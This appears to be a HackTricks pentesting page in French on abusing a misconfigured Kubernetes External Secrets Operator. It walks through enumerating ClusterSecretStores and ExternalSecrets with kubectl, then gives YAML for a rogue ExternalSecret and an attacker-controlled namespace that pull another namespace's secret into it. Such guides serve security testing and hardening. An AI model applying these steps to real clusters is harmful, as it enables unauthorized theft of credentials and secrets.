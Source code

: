 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**L'auteur original de cette page est** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Cette page donne quelques indications sur la façon dont vous pouvez réussir à voler des secrets d'un ESO mal configuré ou d'une application qui utilise ESO pour synchroniser ses secrets.

## Avertissement

La technique montrée ci-dessous ne peut fonctionner que lorsque certaines conditions sont remplies. Par exemple, elle dépend des exigences nécessaires pour permettre à un secret d'être synchronisé sur un namespace que vous possédez / avez compromis. Vous devez le découvrir par vous-même.

## Prérequis

1. Un point d'accès dans un cluster kubernetes / openshift avec des privilèges d'administrateur sur un namespace
2. Accès en lecture sur au moins ExternalSecret au niveau du cluster
3. Déterminer s'il y a des labels / annotations ou une appartenance à un groupe requis qui permettent à ESO de synchroniser votre secret. Si vous avez de la chance, vous pouvez voler librement tout secret défini.

### Collecte d'informations sur l'existant ClusterSecretStore

En supposant que vous avez un utilisateur qui a suffisamment de droits pour lire cette ressource ; commencez par lister d'abord les _**ClusterSecretStores**_ existants.
```sh
kubectl get ClusterSecretStore
```
### Enumeration d'ExternalSecret

Supposons que vous ayez trouvé un ClusterSecretStore nommé _**mystore**_. Continuez en énumérant son externalsecret associé.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ce ressource est limitée à un espace de noms, donc à moins que vous ne sachiez déjà quel espace de noms rechercher, ajoutez l'option -A pour chercher dans tous les espaces de noms._

Vous devriez obtenir une liste des externalsecret définis. Supposons que vous ayez trouvé un objet externalsecret appelé _**mysecret**_ défini et utilisé par l'espace de noms _**mynamespace**_. Rassemblez un peu plus d'informations sur le type de secret qu'il contient.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

À partir d'ici, vous pouvez obtenir le nom d'un ou plusieurs noms de secret (comme défini dans la ressource Secret). Vous obtiendrez une sortie similaire à :
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Jusqu'à présent, nous avons :

- Nommer un ClusterSecretStore
- Nommer un ExternalSecret
- Nommer le secret

Maintenant que nous avons tout ce dont nous avons besoin, vous pouvez créer un ExternalSecret (et éventuellement patcher/créer un nouveau Namespace pour respecter les prérequis nécessaires pour synchroniser votre nouveau secret) :
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Après quelques minutes, si les conditions de synchronisation sont remplies, vous devriez pouvoir voir le secret divulgué dans votre espace de noms.
```sh
kubectl get secret leaked_secret -o yaml
```
## Références

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
